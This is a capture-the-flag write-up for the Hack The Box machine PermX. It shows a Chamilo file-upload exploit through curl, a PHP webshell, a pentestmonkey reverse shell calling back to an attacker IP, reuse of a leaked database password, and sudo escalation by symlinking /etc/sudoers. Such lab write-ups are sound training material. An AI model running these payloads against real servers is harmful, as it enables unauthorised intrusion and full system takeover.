


# PermX Write-Up


This machine is aimed to exploit the Chamillo learning platform through an unrestricted file upload vulnerability.

<!-- truncate -->

## Recon

### nmap

nmap finds two open TCP ports, SSH (22), HTTP (80):

```bash
nmap -p- --open --min-rate=5000 -Pn -T4 -oN nmap/open_ports 10.129.145.196
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-04 20:59 CET
Nmap scan report for 10.129.145.196
Host is up (0.045s latency).
Not shown: 62002 closed tcp ports (reset), 3531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.10 seconds
```

```bash
nmap -p 22,80 -sV -sC -oN nmap/services_version 10.129.145.196
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-04 21:06 CET
Nmap scan report for 10.129.145.196
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.73 seconds
```

### Website by IP - TCP 80

Add a new entry to the `/etc/hosts` file to access the webpage:

```bash
echo -e "10.129.145.196 permx.htb" | tee -a /etc/hosts
```

The site is an Online Learning Platform:


#### Subdomain Fuzz

Use `ffuf` to list if there are virtual hosts:

```
$ ffuf -w /usr/share/wordlists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.permx.htb" -u http://permx.htb -t 200 -ic -fw 18 -o ffuf/subdomains

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev

---

:: Method : GET
:: URL : http://permx.htb
:: Wordlist : FUZZ: /usr/share/wordlists/Discovery/DNS/bitquark-subdomains-top100000.txt
:: Header : Host: FUZZ.permx.htb
:: Output file : subdomains
:: File format : json
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 200
:: Matcher : Response status: 200,204,301,302,307,401,403,405,500
:: Filter : Response words: 18

---

lms [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 74ms]
www [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 4864ms]
:: Progress: [100000/100000] :: Job [1/1] :: 499 req/sec :: Duration: [0:00:35] :: Errors: 0 ::
```

Update the `/etc/hosts` file with the new subdomains found:

```
10.129.145.196 permx.htb www.permx.htb lms.permx.htb
```

#### Chamilo

This site offers a login form based on a PHP learning platform called Chamilo:



At the bottom right there is an administrator name “Davis Miller” with the email “admin@permx.htb”.

Looking around in google I found [this](https://starlabs.sg/advisories/23/23-4220/) CVE where you can upload file to lead to remote code execution via a webshell.

For this attack to work, the `/main/inc/lib/javascript/bigupload/files` folder must and does exist.

##### Simple PHP File

The folder is empty. Following the CVE I will create a simple PHP file returning the `id` shell command and using `curl` I will upload the file:

```bash
$ echo '<?php system("id"); ?>' > rce.php
$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
```

The `id` shell command is successfully executed, confirming the unrestricted file upload vulnerability:



##### PHP Reverse Shell

Go to [this](https://github.com/pentestmonkey/php-reverse-shell) GitHub repo to get the reverse shell updating this chunk of code:

```php
set_tile_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.47';  // attacker_ip
$port = 1234;         // attacker_port
$chunk_size = 1400;
$write_a = null;
$error_b = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

I upload the reverse shell using `curl` again:

```bash
$ curl -F 'bigUploadFile=@php-reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
```

Execute it using `curl`:

```bash
$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/php-reverse-shell.php'
```

Using `netcat` I log in as `www-data` user:

```
$ nc -nvlp 1234
Connecttion from 10.129.201.38:60566
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 GNU/Linux
 18:13:45 up  1:26,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can0t access tty: job control turned off
$ whoami
www-data
```

There is only one user with a home directory:

```
$ ls -l home
total4
drwxr-x--- 4 mtz mtz 4096 Jun  6 05:24 mtz
```

The `www-data` can’t access either the `mtz` directory or `/root`.

The `/var/www/chamilo/app/config` folder contains a file named `configuration.php`, the file is very long but it starts with the DB connection information:

```php
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

The password is `03F6lY3uXAP2bkW8`.

## Shell as mtz

That password is shared as the password for the mtz user, using the `su` command you can switch to that user. If I connect through ssh the `user.txt` flag is there:

```
mtz@permx:~$ ls -l
total 4
-rw-r----- 1 root mtz 33 Sep  7 16:48 user.txt
mtz@permx:~$ cat user.txt
1cdfd162************************
```

## Shell as root

`mtz` can run a Bash script as any user with `sudo`:

```
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

The script allows the user to set the file access control list (FACL) for a file using the `setfacl` command:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

I create a soft link to give permissions to the `mtz` user in the `/etc/sudoers` file because by default only root can access this file:

```bash
ln -s /etc/sudoers /home/mtz/sudoers
sudo /opt/acl.sh mtz rw /home/mtz/sudoers
```

I add a new entry at the end of the `/home/mtz/sudoers` file to have permissions as root user:

```
mtz ALL=(ALL) NOPASSWD: ALL
```

I switch to `root` user to get the `root.txt` flag:

```
mtz@permx:~$ sudo su
root@permx:/home/mtz# ls
sudoers  user.txt
root@permx:/home/mtz# ls /root
backup  reset.sh  root.txt
root@permx:/home/mtz# cat /root/root.txt
a70dea42************************
```

And the machine is pwned! ;)

## References

- mtzsec. (2024, July 06). <span class="reference-title">PermX</span>. _HTB Labs_. [https://app.hackthebox.com/machines/613](https://app.hackthebox.com/machines/613)
